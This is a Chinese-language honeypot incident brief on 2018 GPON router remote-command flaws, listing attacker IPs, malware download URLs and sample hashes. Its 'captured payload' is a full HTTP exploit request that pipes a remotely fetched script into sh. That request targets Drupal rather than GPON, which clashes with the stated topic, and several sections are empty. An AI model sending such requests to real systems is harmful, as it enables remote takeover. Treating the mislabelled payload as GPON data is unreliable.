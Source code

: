 ```yaml
---
layout:     post
title:      GPON Home Routers_RCE_漏洞利用简报
subtitle:   GPON Home Routers_RCE
date: 2018-05-20
author:     shenzhen_antiylabs
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# GPON Home Routers_RCE_漏洞利用简报

## 概述

2018/04/30，vpnMentor公布了
GPON 路由器的高危漏洞：验证绕过漏洞(CVE-2018-10561)和命令注入漏洞(CVE-2018-10562)。将这两个漏洞结合，只需要发送一个请求，就可以在
GPON路由器 上执行任意命令，从5月初开始，安天蜜网团队监控到大量此漏洞利用的流量，并捕获若干样本。

## 漏洞描述



## 捕获载荷

```
  POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 181
Content-Type: application/x-www-form-urlencoded
Host: 66.111.41.249
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
form_id=user_register_form&_drupal_ajax=1&mail%5B%23post_render%5D%5B%5D=exec&mail%5B%23type%5D=markup&mail%5B%23markup%5D=wget%20-qO%20-%20http%3A%2F%2F54.39.23.28%2F1sh%20%7C%20sh

```

## 	攻击IP及URL

189.130.201.116

189.134.20.212

187.149.23.237

189.130.29.29

189.152.236.174

187.175.41.123

<http://51.254.219.134/gpon.php>

<http://185.62.190.191/r>

## 样本

| **样本**                     | **MD5**                          |
| ---------------------------- | -------------------------------- |
| http://185.62.190.191/r      | a536f99aa4030efb5d44c0b4792f4e9b |
| http://185.62.190.191/arm    | d546bc209d315ae81869315e8d536f36 |
| http://185.62.190.191/mips   | 20deff5786a4769b219c304965559043 |
| http://185.62.190.191/mipsel | 21fa1dcc069309245a8aa1c142f112a3 |
| http://185.62.190.191/arm7   | 2adb540db754366a1aa04ccca7105c80 |

## 受影响范围







## 修复及防护建议







## 参考资料


